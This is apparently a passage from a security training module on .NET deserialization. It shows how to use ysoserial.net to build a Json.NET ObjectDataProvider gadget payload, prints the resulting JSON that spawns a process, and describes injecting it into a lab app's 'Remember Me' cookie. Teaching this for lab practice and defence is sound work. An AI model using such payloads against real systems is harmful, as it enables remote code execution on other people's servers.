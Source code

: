 Usage is fairly straightforward. We can download the latest version from the [Releases](https://github.com/pwntester/ysoserial.net/releases) page, and simply extract the ZIP file after it is downloaded. The syntax is explained in the repository's `README.md` file, however, the most important arguments are:

- `-f` to specify the `Formatter`, e.g. `Json.NET`, `XmlSerializer`, `BinaryFormatter`
- `-g` to specify the `Gadget`, e.g. `ObjectDataProvider`, `TypeConfuseDelegate`
- `-c` to specify the `Command`, e.g. `calc`
- `-o` to specify the `Output` mode, e.g. `Base64` or `Raw` for plaintext

```
.\ysoserial.exe -f [Formatter] -g [Gadget] -c [Command] -o [Output]

```

`YSoSerial.NET` provides support for many more `gadgets` and `formatters` than the few we covered in this module, however, they all work similarly. We will not be covering any others, but if you are interested in learning more on your own time, `YSoSerial.NET` is open source, and there are many blog posts/white papers by researchers that detail the various technicalities.

## Example 1: JSON, Remember Me Cookie

Let's take a look at how we could generate a payload for the first vulnerability we exploited; the `"Remember Me"` cookie which was (de)serialized using `Json.NET`. We will pass:

- `Json.Net` as the `Formatter (-f)`
- `ObjectDataProvider` as the `Gadget (-g)`
- `notepad` and the `Command (-c)`
- `Raw` as the `Output (-o)` so that we get plaintext JSON

All together, the command looks like this:

```powershell
PS C:\htb> .\ysoserial.exe -f Json.Net -g ObjectDataProvider -c "notepad" -o Raw

```

Running the command, the output we get looks very similar to the payload we developed manually:

```json
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c notepad']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}

```

If we copy-paste the payload it gave us into the `TTREMEMBER` cookie and log out of `TeeTrove`, then we see that a `notepad.exe` process is spawned as expected.
